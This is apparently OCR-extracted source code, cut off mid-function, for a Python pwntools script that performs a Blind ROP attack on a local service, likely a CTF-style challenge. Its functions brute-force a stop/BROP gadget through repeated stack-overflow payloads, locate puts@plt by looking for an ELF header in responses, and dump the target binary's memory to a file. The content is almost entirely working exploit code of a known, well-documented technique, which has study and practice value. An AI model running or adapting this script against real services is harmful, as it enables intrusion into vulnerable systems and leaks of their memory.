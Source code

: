 ```python
def get_brop_gadget(stack_offset, stop_gadget):
    start_addr = 0x400000
    for nums in range(0x1000):
        exp_file = remote("127.0.0.1", 10000)
        exp_file.recvuntil("WelCome my friend,Do you know password?\n")
        exp_file.sendline("a"*stack_offset + p64(start_addr+nums) + p64(0)*6 + p64(stop_gadget))
        print("[*] We try to test addr: {addr}".format(addr=hex(start_addr+nums)))
        try:
            exp_file.recvuntil("WelCome my friend,Do you know password?\n", timeout=1)
            exp_file.close()
            # Now! we need check the address
            exp_file = remote("127.0.0.1", 10000)
            exp_file.recvuntil("WelCome my friend,Do you know password?\n")
            exp_file.sendline("a" * stack_offset + p64(start_addr+nums) + p64(0)*7)
            try:
                exp_file.recvuntil("No password, no game", timeout=1)
            except Exception as e:
                print("[+] We find a addr: {addr}".format(addr=hex(start_addr + nums)))
                return start_addr+nums

        except Exception as e:
            exp_file.close()
            print("[-] We can't use addr: {addr}".format(addr=hex(start_addr+nums)))
            # print("stack_length: {length}".format(length=length-1))


def get_puts_plt(stack_offset, stop_gadget, pop_rdi_gadget):
    start_addr = 0x400000
    for length in range(0x1000):
        exp_file = remote("127.0.0.1", 10000)
        exp_file.recvuntil("WelCome my friend,Do you know password?\n")
        exp_file.sendline("a" * stack_offset + p64(pop_rdi_gadget) + p64(0x400000) + p64(start_addr+length) + p64(stop_gadget))
        print("[*] We try to test addr: {addr}".format(addr=hex(start_addr + length)))
        try:
            recv_content = exp_file.recvuntil('\nWelCome', timeout=1).split("\nWelCome")[0]
            if "\x7fELF" in recv_content:
                print("[+] We find a addr: {addr}".format(addr=hex(start_addr + length)))
                exp_file.close()
                return start_addr + length
            exp_file.close()
        except Exception as e:
            exp_file.close()
            print("[-] We can't use addr: {addr}".format(addr=hex(start_addr + length)))


def dump_file_content(stack_offset, stop_gadget, pop_rdi_gadget, put_plt):
    start_addr = 0x400000
    file_ptr = open('./core', 'wb+', 0)
    for length in range(0x1000):
        exp_file = remote("127.0.0.1", 10000)
        exp_file.recvuntil("WelCome my friend,Do you know password?\n")
        exp_file.sendline("a" * stack_offset + p64(pop_rdi_gadget) + p64(start_addr) + p64(put_plt) + p64(stop_gadget))
        print("[*] We try to test addr: {addr}".format(addr=hex(start_addr)))
        try:
            file_content = exp_file.recvuntil('\nWelCome', timeout=1).split("\nWelCome")[0]
            if file_content == "":
                file_content = "\x00"
            file_ptr.write(file_content)
            start_addr += len(file_content)
            exp_file.close()
            if start_addr == 0x401000:
```